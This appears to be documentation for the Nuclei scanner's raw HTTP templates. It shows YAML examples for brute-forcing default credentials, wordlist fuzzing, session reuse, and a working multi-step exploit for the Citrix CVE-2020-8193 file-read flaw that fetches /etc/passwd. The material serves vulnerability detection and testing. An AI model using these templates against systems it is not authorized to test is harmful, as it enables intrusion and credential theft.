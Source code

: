 ### HTTP Intruder fuzzing

This template makes a defined POST request in RAW format along with in template defined payloads running `clusterbomb` intruder and checking for string match against response.


```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

# HTTP Intruder fuzzing with in template payload support. 

requests:

  - raw:
      - |
        POST /?username=§username§&paramb=§password§ HTTP/1.1
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5)
        Host: {{Hostname}}
        another_header: {{base64('§password§')}}
        Accept: */*
        body=test

    payloads:
      username:
        - admin

      password:
        - admin
        - guest
        - password
        - test
        - 12345
        - 123456

    attack: clusterbomb # Available: batteringram,pitchfork,clusterbomb

    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

### Fuzzing multiple requests 

This template makes a defined POST request in RAW format along with wordlist based payloads running `clusterbomb` intruder and checking for string match against response.

```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

requests:

  - raw:
      - |
        POST /?param_a=§param_a§&paramb=§param_b§ HTTP/1.1
        User-Agent: §param_a§
        Host: {{Hostname}}
        another_header: {{base64('§param_b§')}}
        Accept: */*

        admin=test

      - |
        DELETE / HTTP/1.1
        User-Agent: nuclei
        Host: {{Hostname}}

        {{sha256('§param_a§')}} 

      - |
        PUT / HTTP/1.1
        Host: {{Hostname}}

        {{html_escape('§param_a§')}} + {{hex_encode('§param_b§'))}}

    attack: clusterbomb # Available types: batteringram,pitchfork,clusterbomb
    payloads:
      param_a: payloads/prams.txt
      param_b: payloads/paths.txt

    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```


### Authenticated fuzzing

This template makes a subsequent HTTP requests with defined requests maintaining sessions between each request and checking for string match against response.

```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

requests:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        Origin: {{BaseURL}}

      - |
        POST /testing HTTP/1.1
        Host: {{Hostname}}
        Origin: {{BaseURL}}

        testing=parameter

    cookie-reuse: true # Cookie-reuse maintain the session between all request like browser. 
    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

### Dynamic variable support

This template makes a subsequent HTTP requests maintaining sessions between each request, dynamically extracting data from one request and reusing them into another request using variable name and checking for string match against response.

```yaml
id: CVE-2020-8193

info:
  name: Citrix unauthenticated LFI
  author: pdteam
  severity: high
  reference: https://github.com/jas502n/CVE-2020-8193

requests:
  - raw:
      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Content-Type: application/xml
        X-NITRO-USER: xpyZxwy6
        X-NITRO-PASS: xWXHUJ56

        <appfwprofile><login></login></appfwprofile>

      - |
        GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/neo HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/stc HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <appfwprofile><login></login></appfwprofile>

      - |
        POST /rapi/filedownload?filter=path:%2Fetc%2Fpasswd HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <clipermission></clipermission>

    cookie-reuse: true # Using cookie-reuse to maintain session between each request, same as browser.

    extractors:
      - type: regex
        name: randkey # Variable name
        part: body
        internal: true
        regex:
          - "(?m)[0-9]{3,10}\\.[0-9]+"

    matchers:
      - type: regex
        regex:
          - "root:[x*]:0:0:"
        part: body
```
